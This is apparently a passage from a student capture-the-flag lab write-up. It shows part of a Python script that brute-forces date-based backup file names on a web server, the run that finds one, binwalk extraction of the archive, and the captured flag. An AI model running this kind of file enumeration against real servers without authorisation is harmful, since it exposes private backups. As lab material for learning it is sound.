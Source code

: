 ```python
		print(f"[+] Found backup file: {i}, {j}, {k}")
		exit(0)


for i in range(2021, 0, -1):
	print(f"[!] Searching year {str(i)}")
	for j in range(12, 0, -1):
		for k in range(31, 0, -1):

			send_request(str(i), str(j), str(k))
			send_request(str(i), str(j).zfill(2), str(k))
			send_request(str(i), str(j).zfill(2), str(k).zfill(2))
			send_request(str(i), str(j), str(k).zfill(2))
```

```bash
┌─[✗]─[kayn@parrot]─[~/Documents/ISC/tema2/task2]                                                                  
└──╼ $clear ; python brute.py                                                                                      
[!] Searching year 2021                                                                                            
[+] Found backup file: 2021, 04, 6
```

```bash
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $binwalk -e backup-2021-04-6.tar.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)
3677650       0x381DD2        gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)

┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $ls
backup-2021-04-6.tar.gz  _backup-2021-04-6.tar.gz.extracted  brute.py
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web]
└──╼ $cd _backup-2021-04-6.tar.gz.extracted/
┌─[kayn@parrot]─[~/Documents/ISC/tema2/task2/web/_backup-2021-04-6.tar.gz.extracted]
└──╼ $ls
0  0.gz  381DD2  381DD2.gz
```

![[Pasted image 20210429152502.png]]

### Flag

**SpeishFlag{kdI8QCUxi24I9Y4esLMyY6jK1cGE8R99}**

